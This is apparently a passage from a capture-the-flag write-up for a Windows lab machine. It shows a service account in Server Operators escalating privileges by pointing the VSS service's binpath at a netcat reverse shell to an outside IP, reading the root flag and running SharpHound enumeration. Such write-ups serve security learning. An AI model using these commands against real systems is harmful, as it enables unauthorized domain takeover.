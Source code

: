 ```
Users
Check if you have some admin equivalent privileges https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#users-and-groups                                                                  
  [X] Exception: Object reference not set to an instance of an object.
  Current user: svc-printer
  Current groups: Domain Users, Everyone, Server Operators, Print Operators, Builtin\Remote Management Users, Users, Builtin\Pre-Windows 2000 Compatible Access, Network, Authenticated Users, This Organization, NTLM Authentication
```

Looking at the article from [here](https://cube0x0.github.io/Pocing-Beyond-DA/), since svc-printer is part of the Server Operators group, we can modify the config of the VSS service such that it creates a reverse shell using the nc.exe that we have uploaded.

```
*Evil-WinRM* PS C:\temp> sc.exe config VSS binpath="C:\temp\nc.exe -e cmd.exe 10.10.16.6 4000"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\temp> 
```

Afterwards, all we have to do is to start the service to obtain the reverse shell

```
*Evil-WinRM* PS C:\temp> sc.exe start VSS
```

### Obtaining root flag
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
<Redacted root flag>
```
## Post-Exploitation
### BloodHound
We can use BloodHound to search for privilege escalation vectors. We will then save the output to return.zip file

```
*Evil-WinRM* PS C:\temp> ./SharpHound.exe -c all --zipfilename return.zip
2022-05-01T05:27:28.7753786-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-05-01T05:27:28.7753786-07:00|INFORMATION|Initializing SharpHound at 5:27 AM on 5/1/2022
2022-05-01T05:27:28.9472561-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-05-01T05:27:29.1035004-07:00|INFORMATION|Beginning LDAP search for return.local
2022-05-01T05:27:29.1347737-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-05-01T05:27:29.1347737-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-05-01T05:27:59.8535214-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2022-05-01T05:28:11.8535002-07:00|WARNING|[CommonLib LDAPUtils]Error getting forest, ENTDC sid is likely incorrect
2022-05-01T05:28:12.1816246-07:00|INFORMATION|Consumers finished, closing output channel
2022-05-01T05:28:12.2128736-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2022-05-01T05:28:12.5253728-07:00|INFORMATION|Status: 91 objects finished (+91 2.116279)/s -- Using 42 MB RAM
2022-05-01T05:28:12.5253728-07:00|INFORMATION|Enumeration finished in 00:00:43.4333981
2022-05-01T05:28:12.6503786-07:00|INFORMATION|SharpHound Enumeration Completed at 5:28 AM on 5/1/2022! Happy Graphing!
```
